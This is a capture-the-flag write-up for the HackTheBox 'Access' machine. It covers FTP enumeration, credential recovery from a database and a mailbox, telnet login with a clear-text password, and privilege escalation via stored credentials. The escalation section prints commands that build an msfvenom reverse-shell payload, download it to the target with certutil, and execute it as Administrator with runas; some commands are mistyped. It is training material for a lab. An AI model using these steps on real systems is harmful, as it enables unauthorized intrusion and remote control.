 # Access [htb](https://app.hackthebox.com/machines/Access)
![Access-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/acess-01.png)


## Recon

Before we start enumeration, let's add the target to our `/etc/hosts` file:
![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/hosts-02.png)


Running nmap:

`nmap -sC -sV -p- -A access.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/nmap-res-03.png)


We have the following:

+ FTP on port 21 (appears to permit anonymous logins).
+ Telnet on port 23. 
+ An IIS v7.5 server on port 80. 


We should start with the FTP server and see if we can find interesting information, or maybe 
misconfiguration of privileges. We then should take a look at the IIS server, and finally telnet 
at the end if we get stuck. 



### FTP 21

Let's login anonymously with `anonymous : anonymous`: 

![anon-ftp-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/anon-ftp-04.png)


We have two folders: 
+ Backups
+ Engineer


Lets cd into `Backups` and see what we can find: 

![ftp-backups-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/ftp-backups-05.png)


Looks like we have an `.mdb` database here. Lets switch to binary mode and get this to our kali. 

![get-db-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/get-db-06.png)


We can open this type of database [online](https://www.mdbopener.com/): 

![open-db-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/open-db-07.png)


we get a list of all the tables in the database, and we can view them online. Iv'e found a couple
of interesting tabels. Primarly: 

+ auth_user - This is the user table with clear-text credentials. 

![auth-user-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/auth-user-08.png)

+ action_log - Stores action performed by the admin when setting up the database. 
+ USERINFO   - Inforamtion about users. 
+ auth_group - An administration group name and permissions. 

 
The `auth-user` is of most interest to us, we should try to use these credentials on the IIS 
server. But before we do that, there was another folder on the FTP, `Engineer`, 
and we have a user named engineer in the db. Lets see what we can find. 

![engineer-ftp-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/engineer-ftp-09.png)

Looks important. Lets put this on our Kali: 

![get-acl-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/get-acl-10.png)


If we examine the file with `file access_control.zip` (i renamed it): 

![file-acl-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/file-acl-11.png)


We can see it's an AES encrypted ZIP archive. You can try to use `zip2john`, then crack it with 
john`, wont work, we have the credetilas for this archive. 

Use `7za` to decompress the arachive: 

`7za e access_control.zip`


![extract-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/extract-12.png)


This gives us a `.pst` file (personal storage table), which is a file format Microsoft programs 
use to store items like calendar events, contacts, and email messages. PST files are stored 
within popular Microsoft software like `Microsoft Exchange`, `Windows Messaging`, 
and `Microsoft Outlook`.

We can open `.pst` files on Kali using `readpst`: 

`apt install pst-utils`


Then read the file with `readpst acl.pst` (renamed the file). 

![readpst-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/readpst-13.png)


This outputs an `.mbox` file we can read on Unix with `less acl.mbox`:

![mail-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/mail-14.png)


We found another user account, this time for a uyser named "security". This user didnt show 
up in the `auth-user` table from before. Lets take a look at the web-sever. 



### IIS 80

If we open our browser and navigate towards `http://access.htb/` we get the following page:

![site-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/site-15.png)

Not much to do here, Lets try directory busting with: 

`ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://access.htb/FUZZ`


Nothing comes up. The site is empty, lets try the telnet. 


### Telnet 23

If we connect to the server with `telnet access.htb`, and wait just a sec... we will be prompted
for credentials: 

![shell-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/shell-16.png)

Use the credetials we got from the email `security : `4Cc3ssC0ntr0ller`.  
Lets move to priv esc. 



## Privilege Escalation

If we list out our user privileges: 

![privs-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/privs-17.png)


Nothing interesting comes out. If we list out `systeminfo` : 

![sysinfo-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/sysinfo-18png.png)

We can see wer'e running a 2008 server V6.1.7600. We can check exploits but there is a faster way.
Lets search for stored credentials with `cmdkey /list`

![creds-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/creds-19.png)


We can now use `runas` to take the admins passwords and run a reverse shell payload.

+ First we need some venom: 

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.68 LPORT=9009 -f exe > rshell.exe`

![venom-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/venom-20.png)


+ Start a python server with:

`python3 -m htp.server 80`


+ Download the shellcode to the target with:

`ertutil -urlcache -f http://10.10.14.68/rshell.exe rshell.exe`


+ Start the listner with: 

`nc -lnvp 9009`


+ Exeecute the payload as Administrator:

`runas /savecred /user:ACCESS\Administrator "C:\\Users\security\rshell.exe"`


+ Get a shell:

![root-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Access/img/root-20.png)
